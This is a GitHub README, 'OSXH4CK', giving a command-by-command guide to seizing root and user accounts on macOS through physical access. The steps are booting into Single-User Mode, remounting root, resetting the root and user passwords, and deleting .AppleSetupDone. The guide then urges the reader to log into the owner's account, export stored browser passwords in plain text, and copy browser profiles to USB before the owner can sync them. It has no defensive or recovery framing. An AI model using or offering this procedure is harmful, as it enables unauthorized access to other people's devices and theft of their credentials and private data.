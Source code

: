# OSXH4CK

# README 

This repo wont contain any scripts or previews, It will just be a simple guide for how you will be able to take over root access of any Apple Device running MacOSX no matter wich version of OSX. (iMac, Macbook devices etc)

I have created this repository as an reminder for myself. With below commands you will gain 100% full control of all users data and take over root access of any OSX device aslong root partition has not been encrypted.

# HOWTO 

Boot your osx device to Single-User Mode by pressing:

    MacOSX Keyboard:  Command (⌘)—S:
    Windows Keyboard: Windows Button + S
    
### When system have booted, mount root:

    /sbin/mount -wu /
  
### Take over root account by changing root password followed by remove .AppleSetupDone file:

    passwd 
     Enter Password:
     Re-Type Password: 
     Successfully changed root password.
    rm /var/db/.AppleSetupDone
    reboot

When you first start using a brand-new Mac or performed a clean install of OS X, you are presented with Setup Assistant, allowing you to create the first user account and specify some initial information, such as keyboard layout 
and locale. Under certain circumstances, it can be advantageous to re-run the Setup Assistant for take over root account ;) Using some command-line trickery, we can do just this without having to erase and reinstall OS X.

### What Setup Assistant Does
Setup Assistant is designed to run on the first boot of a fresh install of OS X, which is why you'll only see it when booting up a a brand-new Mac or one that has been erased and had OS X reinstalled.

### Change current users password:
     passwd 'username'

After password has been updated you will be able to login as the user from login screen and have full access to the users data, pictures, documents, music etc etc..

If you're smart, asap you have logged in on the user(s) account open all web browsers that is installed and head over to settings and grab all passwords that hopefully is stored (if there is any) and save them in plain-text before 
the owner MIGHT sync the settings and all passwords will be gone. Also before you will run the reboot command from single user mode backup ALL web browser settings to an usb or something in case the owner 
already has synced the data. Usually all such settings is stored in ~/.config/google-chrome and ~/.mozilla etc etc.. 

![Screenshot](https://nr1.nu/archive/images/hqdefault.jpg)

#### REQUIREMENTS

A macosx device

#### CONTACT 

If you have problems, questions, ideas or suggestions please contact
us by posting to wuseman@nr1.nu (NEW MAIL)

#### WEB SITE

Visit our homepage for the latest info and updated tools

https://github.com/wuseman

#### END!

